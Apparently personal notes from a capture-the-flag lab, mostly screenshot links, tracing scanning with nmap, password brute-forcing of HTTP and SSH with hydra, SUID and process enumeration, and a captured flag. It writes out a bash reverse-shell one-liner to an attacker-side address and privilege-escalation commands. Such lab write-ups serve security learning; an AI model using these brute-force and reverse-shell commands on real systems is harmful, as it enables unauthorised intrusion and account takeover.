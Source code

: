 ```yaml
---
tags: []
---
```

`nmap 192.168.56.0/24`
mit allen ports
-T4 damit keine firewallfaxen
![](https://i.imgur.com/tHI2XTr.png)
![](https://i.imgur.com/zDYaCOo.png)
![](https://i.imgur.com/j91Why2.png)
![](https://i.imgur.com/q0VnnIQ.png)
![](https://i.imgur.com/fYH07pU.png)
![](https://i.imgur.com/PwZ7OPm.png)
![](https://i.imgur.com/swWh73v.png)
![](https://i.imgur.com/RP6nULv.png)
![](https://i.imgur.com/LXOBUyI.png)
![](https://i.imgur.com/qAzMgsR.png)
![](https://i.imgur.com/JzQxk21.png)
python file für proof zeigen
github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-10000.txt
https://tylerrockwell.github.io/defeating-basic-auth-with-hydra/
`hydra -l user -P pw.txt -s 55487 -f 192.168.15.3 http-get /`
![](https://i.imgur.com/te7iJGH.png)
![](https://i.imgur.com/xRTQq5n.png)
`FLAG{use_secure_credentials}`
![](https://i.imgur.com/Y5ivt2h.png)
![](https://i.imgur.com/AtXi9lB.png)
![](https://i.imgur.com/bWZdxyR.png)

![](https://i.imgur.com/di16GFC.png)
![](https://i.imgur.com/gY0Oxyp.png)
`ls -R *`
![](https://i.imgur.com/4qrGK7s.png)
![](https://i.imgur.com/hjzpC8g.png)
![](https://i.imgur.com/ZzLUjVp.png)

![](https://i.imgur.com/MdvNqDN.png)
![](https://i.imgur.com/2Xhqji1.png)
![](https://i.imgur.com/fE7CWqb.png)

`hydra -l GrumpyCat -P pw.txt 192.168.15.3 ssh -t 4`
`find -perm -4000 2> /dev/null`
![](https://i.imgur.com/0LOwRRt.png)
`cat /proc/741/cmdline`
`find -name "ctf_server.py" 2> /dev/null`
https://superuser.com/questions/632979/if-i-know-the-pid-number-of-a-process-how-can-i-get-its-name
![](https://i.imgur.com/nJoBuRJ.png)
https://medium.com/techiepedia/series-of-ctf-machines-walkthrough-4-linux-privilege-escalation-enumeration-247899027be
`ls -R * 2>dev/null| grep -i flag`
`cat /usr/local/bin/flag_process.sh`
![](https://i.imgur.com/0KhHbmc.png)
![](https://i.imgur.com/UGcn08t.png)
![](https://i.imgur.com/MFNTBGs.png)
![](https://i.imgur.com/Z885wJP.png)
![](https://i.imgur.com/ziYwvHF.png)
https://www.exploit-db.com/exploits/42274


https://www.puckiestyle.nl/upgrading-netcat-shells-to-meterpreter-sessions/
`bash -i> /dev/tcp/192.168.15.4/6969 0>&1`
![](https://i.imgur.com/ne9aUCq.png)
![](https://i.imgur.com/XJU4hYR.png)
![](https://i.imgur.com/WUgbYOs.png)
suid thing
```bash
find / -type f -perm -4001 -exec ls -h {} \; 2> /dev/null
```
![](https://i.imgur.com/QgQfBOA.png)
![](https://i.imgur.com/gePh9t6.png)
![](https://i.imgur.com/08agQET.png)
![](https://i.imgur.com/I9rJQwE.png)

![](https://i.imgur.com/1YVvohV.png)
![](https://i.imgur.com/bd71EuO.png)
![](https://i.imgur.com/FhHbQnQ.png)

1. credentials
2. comments
3. history
4. tmp
5. process
6. sudo
7. root

![](https://i.imgur.com/7ALcUgK.png)
![](https://i.imgur.com/pxEq0RY.png)
![](https://i.imgur.com/Rhiwe05.png)
![](https://i.imgur.com/DgJqQfv.png)
![](https://i.imgur.com/RW0x4DE.png)

![](https://i.imgur.com/A0cWylF.png)
![](https://i.imgur.com/q44fNeO.png)
![](https://i.imgur.com/YhFldor.png)
![](https://i.imgur.com/Ea1bdcX.png)
![](https://i.imgur.com/sA48AMp.png)